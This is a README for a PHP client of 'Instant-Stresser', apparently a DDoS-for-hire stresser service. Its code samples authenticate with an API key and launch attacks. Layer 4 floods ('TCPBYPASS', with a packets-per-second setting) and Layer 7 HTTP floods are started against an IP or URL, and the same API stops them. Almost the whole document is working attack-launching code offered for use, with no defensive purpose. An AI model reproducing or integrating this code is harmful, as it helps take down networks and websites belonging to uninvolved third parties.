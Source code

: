 # Instant-Stresser-API
Sample API usage of Instant-Stresser.com

## Requirements
PHP version 5.x (+).<br/>
Libcurl package.

## L4/L7 Methods Syntaxe
Available here : https://instant-stresser.com/help/methodsdoc

## Authentication
```php
require 'API.php';
// Username and API Key generated from API Manager website.
$api = new API("username", "your-apikey");
```

## Layer 4 Attack
```php
/* Parameters : IPv4 , Port , Time , Method , Slots, PPS */
$response = $api->startL4("1.1.1.1", 80, 15, "TCPBYPASS", 1, 100000);
```
## Layer 7 Attack
```php
/* Parameters : URL , Time , Method , Slots , Type, Ratelimit */
$response = $api->startL7("https://example.com/", 15, "HTTP1", 1, "GET", false);
```
## Stop Attack
```php
/* Parameters : Host. */
$response = $api->stopAttack("1.1.1.1");
```

## API Response
```php
echo $response; // Get API response.
```
